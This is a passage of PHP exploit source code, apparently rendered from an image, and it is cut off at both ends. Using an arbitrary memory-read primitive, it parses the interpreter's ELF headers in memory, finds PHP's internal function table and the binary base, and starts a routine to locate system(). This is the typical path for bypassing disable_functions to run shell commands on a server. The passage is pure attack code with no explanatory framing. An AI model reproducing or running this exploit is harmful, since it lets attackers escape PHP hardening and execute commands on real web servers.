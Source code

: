 ```php
 
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
 
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
 
            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }
 
        if(!$data_addr || !$text_size || !$data_size)
            return false;
 
        return [$data_addr, $text_size, $data_size];
    }
 
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;
 
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
 
            return $data_addr + $i * 8;
        }
    }
 
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }
 
    function get_system($basic_funcs) {
```